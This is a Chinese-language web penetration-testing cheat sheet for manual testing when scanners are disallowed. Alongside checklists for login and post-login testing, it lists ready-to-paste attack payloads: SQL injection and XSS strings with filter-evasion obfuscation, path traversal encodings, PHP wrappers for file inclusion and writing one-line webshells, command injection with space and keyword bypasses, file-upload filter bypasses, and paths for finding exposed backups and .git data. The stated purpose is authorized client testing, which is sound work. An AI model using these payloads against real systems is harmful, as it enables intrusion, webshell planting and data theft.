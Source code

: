 # 手工测试

## 1.1 前言

在渗透测试过程中遇到一些客户不能让使用扫描器进行扫的（系统较老啥的奇奇怪怪的要求），包括xray也不让用，只能开个burp测试的，还有就是客户是在内网的不方便装工具什么的提供一个裸机给你的。或者其他奇奇怪怪要求只能手工测试的，比如吧使用sql注入，如果只是单纯的测试and 1=1，感觉太简单了，容易测漏。所以就列一个测试payload清单放在这里，就是测试的时候挨个复制粘贴看一下结果。



## 1.2 登录框测试

1.弱口令测试。

2.验证码绕过测试。

3.修改响应包绕过登录测试等非授权访问测试。

4.手机验证码绕过测试（逻辑漏洞测试）。

5.注册一个账号测试。

6.注册的逻辑漏洞测试。

7.登录框的SQL注入测试（虽然基本不太可能有了）。

## 1.3 登录后（或不需要登录）

1.登录后的SQL注入。

2.修改头像或者能上传文件的地方进行文件上传测试。

3.能读取文件或包含文件的地方进行文件读取，目录穿越，文件包含（包括伪协议测试）。

4.能直接通过修改模板等插入代码的，尝试插入一句话木马。

5.能备份文件的，尝试通过备份来备份一句话木马。

6.有日志记录可以结合文件包含的，可以通过在地址栏中访问构造的一句话木马，在包含日志。

7.命令执行类功能的地方，比如ping之类的，测试一下命令执行。

8.类似ftp功能的地方，可以尝试一下目录穿越，看看能不能穿越到没有权限的目录从而读取文件。（总之就是根据功能点进行测试对应的漏洞。）

9.根据cms或者系统找对应的历史nday进行测试。

10.越权测试。

11.任意用户密码修改测试。

## 1.4 SQL注入测试payload

```
-1

'

and true=true --+

&& true=true #

or 656323=656323 --+

and sleep(3) #

waitfor delay '0:0:5'--

%df%27and true --+

1鎈'"\(

'and/**/extractvalue(1,concat(char(126),md5(56423645)))and'                      #c1077208a8ff487fae85e7d0b5293504

'and(select*from(select+sleep(3))a/**/union/**/select+1)='
```

## 1.5 xss测试payload

```
<ScRiPt>alert(1)</sCrIpT>

<ImG sRc=1 OnErRoR=prompt(1)>

"-prompt(1)-"

"oNmOuSeOvEr=prompt(1)//

<sc<!--test-->ript>alert('1')</scr<!--taaa-->ipt>

javascript:alert(1111)

<svg><script>alert(XSS);</script>
```

## 1.6 文件包含测试 or 文件读取

1.测试本地文件包含，使用../测试是否能够目录穿越。

```
../
..%2F
%2E%2E/
%2E%2E%2F
.%2E/
```

2.测试远程文件包含。

3.如果有文件上传点且白名单验证，可以尝试本地上传图片或其他格式的文件，结合文件包含进行利用。

4.为协议需要allow_url_fopen与allow_url_include同时开启，鸡肋。

```
php://filter/convert.base64-encode/resource=

php://input # POST数据包写一句话木马。

data://text/plain,<?php phpinfo();?>

data://text/plain;base64,PD9waHAgZWNobyBwaHBpbmZvKCk7Pz4=

phar://xxx/x.php

zip://xxx/b.php
```

## 1.7 命令执行payload

```
;whoami
|whoami
||whoami
&whoami
&&whoami

tips:
${IFS} # 替换空格。
%09 # 替换空格，前提PHP环境。
echo d2hvYW1pCg== | base64 -d | bash 
a=c;b=a;c=t;$a$b$c file1
cat<>file1
cat<file1
c''"at" file1 
```

## 1.8 文件上传

1.先使用copy /b a.jpg b.php s.jpg

2.上传s.jpg，抓包修改后缀为php，send发送测试。（这样做的好处是，绕过了前端验证，保证MIME为jpg，绕过了Content-type验证，因为是copy生产的图片，是可以正常打开成图片的，因此可以绕过php通过获取图像长宽进行的验证，还可以绕过验证文件头进行的验证。）

3.不行就改改后缀，如Windows下使用php.或者php空格进行尝试。

4.在不行就多加一下filename=aaa.jpg;filename=aaa.jpg;filename=aaa.jpg;filename=a.php或者使用垃圾字符进行填充。

5.再不行就后缀名换行。

6.如果不会修改文件名，还可以上传.htaccess文件试试。

（其他语言同理。）



## 1.9 目录扫描

如果是手工测试的话，为了测试的全面主要是看一下有没有网站备份或者是其他敏感文件或者是git泄露之类的，不需要像dirsearch一样详细的扫目录。

```
www.zip
www.rar
www.zip
www.7z
www.tar.gz
www.tar
web.zip
web.rar
web.zip
web.7z
web.tar.gz
web.tar
.git/HEAD
.git/config
.DS_store
.svn
admin
admin.php
db.sql
manager/
```


